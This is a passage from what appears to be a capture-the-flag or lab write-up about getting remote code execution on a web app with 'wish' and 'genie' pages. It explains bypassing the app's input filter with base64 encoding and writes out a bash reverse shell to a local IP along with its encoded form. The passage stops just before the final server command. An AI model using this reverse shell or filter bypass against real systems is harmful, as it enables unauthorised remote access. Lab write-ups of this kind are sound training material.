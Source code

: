 In _wish_ there is a potencial rce because the output, for example, of id command is on _genie_.
![wish](images/wish.png)
![genie](images/genie.png)
![Source Code Genie](images/source_code_genie.png)

The input filters many words and expressions, so a good way to bypass it is to encode it in base64. Let's try it with a reverse shell written in bash. To make it run on the server we will have to pipe it with base64 and bash. First of all we are going to encode it.

```Shell
# echo "bash -i >& /dev/tcp/10.0.2.19/1234 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTkvMTIzNCAwPiYxCg==
```
The command to be executed on the server is:
